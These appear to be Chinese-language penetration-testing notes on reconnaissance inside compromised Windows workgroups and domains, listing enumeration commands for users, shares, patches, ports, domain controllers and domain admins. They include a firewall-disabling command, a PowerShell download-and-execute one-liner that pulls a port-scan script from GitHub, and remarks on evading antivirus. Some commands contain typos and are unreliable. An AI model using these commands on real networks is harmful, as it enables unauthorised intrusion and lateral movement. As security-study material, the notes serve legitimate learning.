 
#### 虚拟机三种网络

* 桥接：虚拟机在局域网中是一个独立的机器
* nat ：物理机相当于虚拟机的网关，虚拟机借助于物理机上网
* host-only:没法上网，只能物理机与虚拟机共享

#### 信息收集
##### 工作组信息收集
*  查询网络配置
    1. ifconfig /all
*  查询用户列表
    1. net user
    2. net localgroup administrators
    3. query user || qwinsta
*  查询进程列表
    1. tasklist /v
    2. wmic process list brief
*  查询操作系统
    1. systeminfo | findstr \B \C "Os Name"
*  安装软件版本信息,以及路径
    1. wmic product get name,version
    2. powershell "Get-WmiObject -class Win32_Product |Select-Object -Property name,version"   
*  查询端口列表
    1. netstat -ano
*  查询补丁列表
    1. systeminfo
    2. wmic qfe get Caption,Description,HotFixID,InstalledOn
*  查询本机共享
    1. net share
    2. net share \\hostname
    3. wmic share get name,path,status
*  查询防火请配置
      1.  netsh firewall show config
       
        关闭防火墙
      2.  netsh advfirewall set allprofiles state off (需管理员)

        防火墙配置看ppt 上,允许程序出入
*  查询并开启远程连接服务

         * 查询远程服务端口
          ```cmd
         REG QUERY   "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /V   PortNumber   
        ```
        开3389看ppt 上
*  查看权限 whoami

        本地普通用户(不能查询域内信息)
        本地主机管理员（可以查询域内信息）
        域用户(可以查询域内信息)

        获取用户sid(whoami /all)
        查询用户信息
        net user zzz /domain      
我们可以通过WMIC环境来管理整个系统了。
[wmic渗透中的用法](https://blog.csdn.net/discover2210212455/article/details/82711930)

*  	当前帐户权限
  > whoami /priv
*  显示dns 缓存
    1. ipconfig /displaydns
*  刷新dns
    1. ipconfig /flushdns
*  列车安装的驱动
    1.  DRIVERQUERY
*  列出启动的服务
  > net start
*  在目录中搜索包含指定字符的项目
  > dir /s foo
*  强制结束进程
  > tasklill /im aa.exe /f
*  列出所有服务
  > sc QUERY
*  找到指定服务的路径
  > sc qc service
*  列出权限
  > 

##### 域环境收集
*  查询是否有域环境

        ifconfig /all(nslookup 查询域控ip)
        systeminfo(查询系统详细信息)
        net config wokstation
        net time /domain

            1. 存在域，当前用户是域用户
            2. 存在域，当前用户不是是域用户(拒绝访问)
            3. 不存域(找不到)

*  域内存活主机的探测
    *   利用(网络邻居)netbios探测内网  工具 nbtscan
                使用方法：nbt.exe  ip/24(防止防火墙)
  ![Alt text](3.png)
  * 通过ping命令探测
    * linux
        >for i in `seq 1 255`; do ping -c 2 192.168.100."$i"|grep  "64 bytes" ;done
    * windows
        >for /L %I in (1,1,254) do @ping -w 1 -n 1 192.168.1.%I | findstr "TTL="
  * 利用arp探测内网
    * arp-scan
        arp -t ip
    * [ps脚本](https://github.com/samratashok/nishang)
        nishang的ps脚本(invoke-arpScan)
          
          
          1. 远程下载运行
          2. 本地运行
          3. 无条件运行(内存中运行，比较隐蔽)

    *  scanline 探测开启那些端口
*  域内端口扫描
    * 端口banner
    * 端口上运行的服务
    * 常见应用默认端口
    * telnet命令
    * ps脚本(PowerSploit 中的 Invoke-Portscan.ps1 脚本)(杀软不报毒)

    > powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/Invoke-Portscan.ps1');Invoke-Portscan -Hosts 192.168.0.1/24 -T 4 -ports '445,1433,8080,3389,80' -oA c:\windows\temp\res.txt"

* 域内基本信息收集(本地用户没权限，域用户有权限，本机system权限可以查询)
    * net view /domain 查询域
    * net view /domain:xxx 查询域中的电脑
    * net view /domain:workgroup
    * net group /domain 查询域组
    * net group "domain computers" /domain 查询所有域成员
    * net accounts /domain 获取密码策略
    * nItest /domain_trusts 或许信任信息
*  查找域控
    > nltest /dclist:lmcx

    > 扫描开启389的主机

    > net time /domain

    > net group "domain controllers" /domain

    > nslookup -type=srv_ladp._tcp

    > systeminfo (查看登录域)
* 域用户和管理员的获取
    > net user /domain

    >dsquery user(AD命令，域控制器上用)

    >wmic useraccount get /all(获取详细信息)
  
    >net group "domain admins" /domain

    >net group "Enterprise Admins" /domain